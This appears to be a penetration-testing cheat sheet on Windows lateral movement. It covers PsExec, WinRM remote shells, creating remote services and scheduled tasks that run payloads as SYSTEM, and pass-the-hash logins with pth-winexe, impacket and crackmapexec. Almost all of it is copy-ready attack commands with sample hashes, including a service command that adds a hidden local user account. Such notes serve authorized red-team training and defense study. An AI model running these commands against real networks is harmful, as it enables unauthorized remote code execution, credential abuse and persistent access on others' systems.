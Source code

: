 # Lateral Movement and Pivoting



## Table of contents

##### ➤ Windows - Spawning a process remotely
* [1. PSEXEC](#Psexec)
* [2. Remote Process Creation Using WinRM](#Remote-Process-Creation-Using-WinRM)
* [3. Remotely Creating Services Using sc](#Remotely-Creating-Services-Using-SC)
* [4. Creating Scheduled Tasks Remotely](#Creating-Scheduled-Tasks-Remotely)

##### ➤ Windows - Pass the hash
* [1. Passing the hash method](#Passing-the-hash-method)

``` ```
``` ```
## Psexec

- Ports: 445/TCP (SMB)
- Required Group Memberships: Administrators
- Part of sysinternals 

#### Commands
```
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```

``` ```
``` ```
## Remote Process Creation Using WinRM

- Ports: 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Remote Management Users

#### Using winrs.exe :
```
winrs.exe -u:Administrator -p:Mystrongpassword -r:target cmd
```

#### Using Powershell directly :

###### 1. create a PSCredential object :
```
$username = 'Administrator';
$password = 'Mystrongpassword';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
````

###### 2.A. Create an interactive session using Enter-PSSession cmdlet :
```
Enter-PSSession -Computername TARGET -Credential $credential
```

###### 2.B Run only a specific command 
```
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
```


``` ```
``` ```
## Remotely Creating Services Using sc

- Ports:
  -  135/TCP, 49152-65535/TCP (DCE/RPC)
  - 445/TCP (RPC over SMB Named Pipes)
  - 139/TCP (RPC over SMB Named Pipes)
- Required Group Memberships: Administrators

#### 1. create and start a service named "SERVICENAME" using the following commands:
```
sc.exe \\TARGET create SERVICENAME binPath= "net user USERNAME PASSWORD /add" start= auto
sc.exe \\TARGET start SERVICENAME
```
***Notes :*** The "net user" command will be executed when the service is started, creating a new local user on the system. Since the operating system is in charge of starting the service, you won't be able to look at the command output.

####  2. Stop and delete the service
```
sc.exe \\TARGET stop SERVICENAME
sc.exe \\TARGET delete SERVICENAME
```

``` ```
``` ```
## Creating Scheduled Tasks Remotely

Another Windows feature we can use is Scheduled Tasks. You can create and run one remotely with schtasks, available in any Windows installation. 

#### Create a task named MYTASK, we can use the following commands:

```
schtasks /s TARGET /RU "SYSTEM" /create /tn "MYTASK" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/2023 /st 00:00 
schtasks /s TARGET /run /TN "MYTASK" 
```

***Notes :*** We set the schedule type (/sc) to ONCE, which means the task is intended to be run only once at the specified time and date. Since we will be running the task manually, the starting date (/sd) and starting time (/st) won't matter much anyway. Since the system will run the scheduled task, the command's output won't be available to us, making this a blind attack.


#### Delete the scheduled task
```
schtasks /S TARGET /TN "MYTASK" /DELETE /F
```



``` ```
``` ```
## PTH - Pass the hash methods

##### ➤  PTH-winexe

Install
```
sudo apt install passing-the-hash
```

Pass the hash
```
#From the kali linux machine
pth-winexe -U 'admin%hash' //10.0.0.1 cmd.exe
pth-winexe -U 'admin%ad3b435b51404eeaad3b435b51404ee:32196B56FFE6F45E294117B91A83BF38a //10.0.0.1 cmd.exe
```

**Note:** Remember the full hash includes both the LM and NTLM hash, separated by a colon

##### ➤  smbclient.py (impacket)
```
python /opt/impacket/examples/smbclient.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/admin@10.0.0.1
```

##### ➤  PTH-smbclient
```
pth-smbclient -U ignite/adminr%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //10.0.0.1/c$
```

##### ➤  psexec.py (impacket)
```
python3 psexec.py -hashes ad3b435b51404eeaad3b435b51404ee:32196B56FFE6F45E294117B91A83BF38a admin@10.0.0.1
```

**Note:** When you received this error "[-] [Errno Connection error (10.0.0.1:445)] [Errno 113] No route to host", use wmiexec.py

##### ➤  wmiexec.py (impacket)
```
python3 wmiexec.py -hashes ad3b435b51404eeaad3b435b51404ee:32196B56FFE6F45E294117B91A83BF38a admin@10.0.0.1
```

##### ➤  Crackmapexec
```
crackmapexec smb 10.0.0.1 -u Admin -H 32196B56FFE6F45E294117B91A83BF38 -x ipconfig
```
